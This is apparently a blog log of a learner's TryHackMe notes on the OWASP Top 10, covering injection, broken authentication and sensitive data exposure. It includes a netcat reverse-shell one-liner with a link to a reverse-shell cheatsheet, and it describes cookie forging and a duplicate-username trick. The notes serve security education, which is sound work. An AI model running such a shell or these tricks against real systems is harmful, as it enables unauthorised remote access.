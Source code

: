```yaml
---
title: 'TryHackMe: Complete Beginner'
date: 2021-10-05 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-10-05-tryhackme-complete-beginner.html
author: 100007
---
```


# OWASP Top 10

## (Severity 01) Injection

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like:

```
nc -e /bin/bash $LOCAL_IP $LOCAL_PORT
```

I’m pretty sure that this would have allowed us to avoid all of the named-pipe-magic that Metsploit generated a couple of days ago… Though I’m also pretty sure that Metasploit’s code is more robust (since it will work with versions of nc that _don’t_ support the -e flag).

[A library of reverse shell methods.](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Injection attacks can be divided into two broad classes:

BLIND attacks are ones where command output is not returned to the attacker in a server response.

ACTIVE attacks are those where the command output _is_ returned to the attacker in a server response.

- [2021-10-02 - TryHackMe: Complete Beginner](https://cardboard-iguana.com/log/2021-10-02-tryhackme-complete-beginner.html)

## (Severity 02) Broken Authentication

Sometimes you don’t need to steal a session cookie… If the webserver isn’t setting session cookies in a sufficiently random fashion, _forging_ one can become an option!

The TryHackMe tutorial implies that a common mistake is to allow the registration of a username that matches an existing user but with a leading or trailing whitespace character; sometimes this new user will be interpreted to be the same as the old user (the one without the whitespace), resulting in the same level of access as that user.

Honestly, I’m trying to imagine how this would happen in most realistic contexts. Yes, it’s easy to construct an example in Bash (etc.), but most languages I’ve seen web apps written it take string quoting a lot more seriously.

## (Severity 03) Sensitive Data Exposure

So, the trick this section is talking about is that some small web applications use SQLite databases, and a sloppy webdev might store the database file in the application webroot where it can be downloaded and then read at our leisure.

